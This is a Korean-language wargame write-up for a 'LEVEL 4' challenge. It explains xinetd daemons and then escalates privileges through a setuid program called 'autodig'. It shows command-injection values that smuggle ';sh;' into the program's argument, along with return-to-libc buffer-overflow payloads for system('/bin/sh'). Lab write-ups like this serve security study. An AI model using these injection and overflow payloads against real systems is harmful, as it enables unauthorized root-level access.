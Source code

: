 ## LEVEL 4



1. hint

   ![](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572942225885.png)



2. `/etc/xinetd.d`에서 backdoor 파일 확인

   ![](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572942324076.png)



------------------------



#### 개념 이해



1. Daemon (데몬)

   > 시스템에 관련된 작업을 수행하는 background process를 통칭하는 용어
   
   - 특징
     - 부팅 단계부터 지정된 daemon 동작
     - 서비스의 요청이 없는 경우에는 유휴(idle) 상태를 유지함
     - 기본적인 시스템 resource를 소모



   - Stand alone 방식
     - 각 service daemon이 항상 standby하고 있다가 service 요청이 오면 바로 작동
     
     - 자주 사용되는 service에 사용
     
       > ex) httpd, sshd ...
     
     
   - Xinetd 방식
   
     > eXtended InterNET service Daemon
   
     - Internet Super Daemon이 다른 daemon들을 관리하는 형태
     
     - Super daemon만 standby하고 있다가 service 요청이 들어오면 해당 service 프로그램을 실행 시킴
     
       - 네트워크 접속 제어 역할 수행
       - 특정 service daemon 대신 client가 연결을 하면 연결을 받아들이는 역할
     
     - 자주 사용하지 않는 service에 사용
     
       > ex) telnet ...

   

----------------------------



#### 취약점 공략



1. 환경 변수 - PATH

   `echo $PATH`

   ![](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572590486253.png)

   - `/bin` 이 환경 변수 PATH에 지정되어 있으므로 `/bin`에 있는 파일은 이름만으로 실행 가능

     

2. file (`autodig`) 실행

   - parameter를 쓰지 않은 경우

     `autodig`

     ![1572590586521](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572590586521.png)

     ​	→ argc가 2개가 아님 (argc = 1)

     

   - parameter를 잘못 쓴 경우

     `autodig 168.126.63.1 www.naver.com`

     ![1572590737920](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572590737920.png)

     ​	→ argc가 2개가 아님 (argc = 3)

     

   - parameter를 " "로 감싸준 경우

     `autodig "168.126.63.1 www.naver.com"`

     ![1572591403173](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572591403173.png)

     ​	→ argc = 2

     ​	→ `dig @168.126.63.1 naver.com` 가 실행됨



3. 첫번째 공격

   > ; 를 이용한 공격

   - `;`, `&&` : 명령어를 자동으로 이어서 실행 가능 (앞 명령어가 끝나면 뒷 명령어가 실행되는 방식)

     - `pwd; id; ls -ld /etc`

       ![1572668178064](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668178064.png)

       ​	→ `pwd`, `id`, `ls -ld /etc` 명령어를 차례로 실행

       
     
     - `pwddd; id; ls -ld /etc`
     
       ![1572668385934](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668385934.png)
     
       ​	→ `;` 를 이용한 명령어는 앞 명령어가 틀려도 뒷 명령어 실행 가능
     
       
     
     - `pwd && id && ls -ld /etc`
     
       ![1572668279714](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668279714.png)
     
       ​	→ `pwd`, `id`, `ls -ld /etc` 명령어를 차례로 실행
     
       
     
     - `pwddd && id &&& ls -ld /etc`
     
       ![1572668468868](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668468868.png)
     
       ​	→ `&&` 를 이용한 명령어는 앞 명령어가 틀리면 뒷 명령어 실행 불가능
     
       
     
   - `autodig "168.126.63.1 www.naver.com;sh;"`

     ![](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668846691.png)

     ​	→ `dig 168.126.63.1 www.naver.com;sh; version.bind chaos txt` 를 실행한 결과와 같음

     ​	→ setuid bit가 설정되어 있으므로 `sh`는 level 4의 권한으로 실행된다

     

   - `autodig "168.126.63.1 www.naver.com;my-pass;"`

     ![1572668920547](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572668920547.png)

     ​	→ `dig 168.126.63.1 www.naver.com;my-pass; version.bind chaos txt` 를 실행한 결과와 같음

     ​	→ setuid bit가 설정되어 있으므로 `my-pass`는 level 4의 권한으로 실행된다

   

4. 두번째 공격

   > RTL을 이용한 공격

   - RTL(Return To Libc) 

     ​	: stack에 공격 코드인 shell code를 올려놓고 실행하는 기법을 막은걸 우회하는 기법 

     

   - 메모리 구조 분석

     ![1572669094777](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572669094777.png)

   ​	→ 0x78 = 120

   ​	→ 120 = 100 byte + 12 byte (dummy) + 8 byte (dummy)

   ​	⇒	Low                                    								High 
   ​				|-------------- 120 -------------|-- 4 --|-- 4 --| 
   ​				|--- 100  ---|--- 12 ---|--- 8 ---|-- 4 --|-- 4 --|
   ​				+-----------+----------+--------+------+------+
   ​				| cmd[100] | dummy | dummy|  SFP  |  RET  |
   ​				+-----------+----------+--------+------+------+

   

   -  RTL 공격에 필요한 변수 준비

     - system() 함수의 주소

       ![](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572940428687.png)

       

     - "/bin/sh" 문자열의 주소

       - `vi findshell.c` 명령어로 findshell.c 파일 만들기

         ![1572940544315](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572940544315.png)

       - findshell.c 파일 컴파일 및 실행

         ![1572940582569](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572940582569.png)

         

   - 공격 실행

     ```
     autodig `python -c 'print "A"*119+"\xc0\xf2\x03\x42"+"A*4"+"\xa4\x7e\x12\x42"'`
     ```

     ![1572940776853](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572940776853.png)

     - 메모리 구조 분석

       |-------------- 120 -------------|-- 4 --|-- 4 --|-- 4 --|-- 4 --|
       |--- 100  ---|--- 12 ---|--- 8 ---|-- 4 --|-- 4 --|-- 4 --|-- 4 --|
       +-----------+----------+--------+------+------+------+-------+
       | cmd[100] | dummy | dummy|  SFP  |  RET  | argc |argv[1]|
       +-----------+----------+--------+------+------+------+-------+

       |dig @| .......  AAAAAAAAAAAA  ......  |system|AAAA|/bin/sh|

       |-  5  -|-------------- 119 --------------|--- 4 --|-- 4 --|-- 4 --| 

       ​	⇒ `system(/bin/sh)`

       

3. 세번째 공격

   > 환경 변수를 이용한 RTL 공격

   - 환경변수에 "/bin/sh" 문자열 저장

     - `export MYSHELL="/bin/sh"`

       ![1572941394533](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572941394533.png)

     - 환경변수 `MYSHELL` 주소 확인

       - `vi getmyshell.c` 명령어로 getmyshell.c 파일 만들기

         ![1572941635873](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572941635873.png)

       - getmyshell.c 파일 컴파일 및 실행

         ![1572941668858](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572941668858.png)

   

   - 공격 실행

     ```
     autodig `python -c 'print "A"*119+"\xc0\xf2\x03\x42"+"A*4"+"\x6f\xff\xff\xbf"'`
     ```

     ![](C:\Users\YONGHA.LEE\AppData\Roaming\Typora\typora-user-images\1572941830513.png)

     ​	⇒ `system(/bin/sh)`

